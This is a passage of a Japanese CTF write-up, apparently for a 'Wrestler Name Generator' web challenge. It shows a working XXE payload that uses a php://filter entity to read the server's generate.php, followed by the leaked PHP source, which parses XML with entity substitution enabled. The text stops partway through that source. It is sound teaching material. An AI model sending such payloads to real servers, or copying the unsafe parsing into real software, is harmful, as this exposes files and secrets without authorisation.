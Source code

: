```html
<script>
document.getElementById("button").onclick = function() {
  var firstName = document.getElementById("firstName").value;
  var lastName = document.getElementById("lastName").value;
  var input = btoa("<?xml version='1.0' encoding='UTF-8'?><input><firstName>" + firstName + "</firstName><lastName>" + lastName+ "</lastName></input>");
  window.location.href = "/generate.php?input="+encodeURIComponent(input);
};
</script>
︙
```

フォームを送信すると `generate.php` に XML が投げられるようです。XXE を利用した攻撃ができないか試してみましょう。

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE input [<!ENTITY h SYSTEM "php://filter/convert.base64-encode/resource=generate.php">]><input><firstName>&h;</firstName><lastName>neko</lastName></input>
```

を投げてみると `generate.php` のソースコードが得られました。

```php
<?php
$whitelist = array(
    '127.0.0.1',
    '::1'
);
// if this page is accessed from the web server, the flag is returned
// flag is in env variable to avoid people using XXE to read the flag
// REMOTE_ADDR field is able to be spoofed (unless you already are on the server)
if(in_array($_SERVER['REMOTE_ADDR'], $whitelist)){
    echo $_ENV["FLAG"];
    return;
}
// make sure the input parameter exists
if (empty($_GET["input"])) {
    echo "Please include the 'input' get parameter with your request, Brother";
    return;
}

// get input
$xmlData = base64_decode($_GET["input"]);
// parse xml
$xml=simplexml_load_string($xmlData, null, LIBXML_NOENT) or die("Error parsing XML: "."\n".$xmlData);
$firstName = $xml->firstName;
$lastName = $xml->lastName;
// generate name
$nouns = array("Killer", "Savage", "Stallion", "Coder", "Hacker", "Slasher", "Crusher", "Barbarian", "Ferocious", "Fierce", "Vicious", "Hunter", "Brute", "Tactician", "Expert");
$noun = $nouns[array_rand($nouns)];
$generatedName = $firstName.' "The '.$noun.'" '.$lastName;

// return html for the results page
echo <<<EOT
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Wrestler Name Generator</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
```